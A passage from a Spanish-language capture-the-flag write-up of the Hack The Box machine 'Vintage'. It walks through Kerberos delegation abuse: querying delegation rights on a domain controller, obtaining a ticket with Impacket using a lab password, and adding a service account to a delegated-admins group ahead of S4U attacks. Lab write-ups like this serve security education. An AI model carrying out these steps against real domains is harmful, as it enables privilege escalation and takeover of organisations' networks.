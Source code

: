 Esto podemos confirmarlo desde la sesión de `powershell` con el usuario `C.Neri`. El DC permite delegación de recursos

~~~ powershell
*Evil-WinRM* PS C:\Users\C.Neri\Documents> Get-ADComputer DC01 -Properties PrincipalsAllowedToDelegateToAccountt


DistinguishedName                    : CN=DC01,OU=Domain Controllers,DC=vintage,DC=htb
DNSHostName                          : dc01.vintage.htb
Enabled                              : True
Name                                 : DC01
ObjectClass                          : computer
ObjectGUID                           : c90b840f-7704-46ee-a3fb-aff23c8183c7
PrincipalsAllowedToDelegateToAccount : {CN=DelegatedAdmins,OU=Pre-Migration,DC=vintage,DC=htb}
SamAccountName                       : DC01$
SID                                  : S-1-5-21-4024337825-2033394866-2055507597-1002
UserPrincipalName 
~~~

Entonces nuestro objetivo será convertirnos en un usuario privilegiado a través de este vector. Como el usuario `L.Bianchi_adm` es parte del grupo `Delegated Admins` y además posee mayores privilegios, solicitaremos un TGS para convertirnos en este usuario y así poder conectarnos al DC. Para llevar a cabo el ataque seguiremos una serie de pasos:

- Agregar un SPN a un usuario que controlemos, podemos aprovechar la cuenta `svc_ldap` para llevar a cabo el ataque
- Utilizaremos `S4U2Self` para solicitar un TGS en nombre de la cuenta objetivo (`L.Bianchi_adm`)
- Usaremos `S4U2Proxy` para autenticarnos con el ticket que obtendremos

Primeramente usaremos un ticket como el usuario `C.Neri_adm` para contar con los privilegios suficientes

~~~ bash
getTGT.py vintage.htb/C.Neri_adm:Uncr4ck4bl3P4ssW0rd0312 -dc-ip 10.10.11.45
Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in C.Neri_adm.ccache

export KRB5CCNAME=C.Neri_adm.ccache
~~~

Procedemos añadiendo la cuenta `svc_ldap` al grupo `Delegated Admins` utilizando `net`, debemos especificar el uso de `kerberos` con el parámetro `--use-kerberos=required`

~~~
net rpc group addmem "DELEGATEDADMINS" "svc_ldap" --use-kerberos=required -S DC01.vintage.htb

net rpc group members "DELEGATEDADMINS" --use-kerberos=required -S DC01.vintage.htb 
VINTAGE\svc_ldap
VINTAGE\C.Neri_adm
VINTAGE\L.Bianchi_adm
~~~

Procederemos asignando un SPN (Service Principal Name) a la cuenta `svc_ldap`. Esto es clave ya que **nos permitirá identificar un servicio al que intentamos acceder**, sin este atributo, no podremos obtener un TGS (Ticket Granting Service)
